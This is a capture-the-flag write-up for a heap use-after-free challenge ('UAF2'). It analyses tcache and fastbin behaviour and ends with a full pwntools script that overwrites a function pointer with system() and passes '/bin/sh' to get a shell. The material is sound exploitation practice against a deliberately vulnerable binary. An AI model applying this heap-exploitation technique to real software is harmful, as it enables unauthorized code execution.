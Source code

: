 # UAF2
## Challenge Details
![](assets/uaf2_details.png)
## Analysis
As the code of the challenge is similar to [UAF](uaf.md) challenge, I used `diff` to find the difference to save some time.

![](assets/uaf2_diff.png)

You can see there are only two main differences:
1. No `get_shell()` anymore but the `system()` is still used to find the current time. So, our goal this time is to modify the address of `speak()` to `system()` and the value of name to `/bin/sh`
2. The size of the name is now fixed to `0x18`. Therefore, all the chunk size will be `0x20`, which means the attack used in [UAF](uaf.md) cannot be applied again.

But after looking into the binary, something abnormal appeared:
![](assets/uaf2_gdb.png)

Notice the fastbin show that something is corrupted. Thus, I try testing the fastbin by filling up the `tcache` with animals (each tcache bin can hold 7 chunk at maximum, so 4 animals will create 8 chunk and one chunk should go to fastbin instead).
![](assets/uaf2_gdb.png)
This time the chunk did not go to fastbin. If we allocate a new animal, the 2 chunks created are not connected anymore. Hence, there should be some combination that shifted the chunk and write to the destinated region.

After testing different combinations, I have come up the following solution.

## Solution
```python
from pwn import *
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'

e = ELF('./zoo')
r = gdb.debug('./zoo', 'b* remove_animal\nc')
# r = remote('chal.hkcert22.pwnable.hk', 28236)
def create(data):
    r.sendlineafter(b'Exit\n> ', b'1')
    r.sendlineafter(b'2) Panda', b'1')
    r.sendafter(b'animal?', data)

def delete(id):
    r.sendlineafter(b'Exit\n> ', b'2')
    r.sendlineafter(b'(0-9)', str(id).encode())

def report(id):
    r.sendlineafter(b'Exit\n> ', b'3')
    r.sendlineafter(b'(0-9)', str(id).encode())

# 0 - 3
for i in range(4):
    create(b'A' * 0x18)

# 0 - 3
for i in range(4):
    delete(3 - i)

# 4
create(p64(e.symbols['system']))

# 5 - 8
for i in range(4):
    create(b'A' * 0x18)
delete(8)
delete(7)
delete(5)
delete(6)

create(b'/bin/sh\0')
report(1)
r.interactive()
```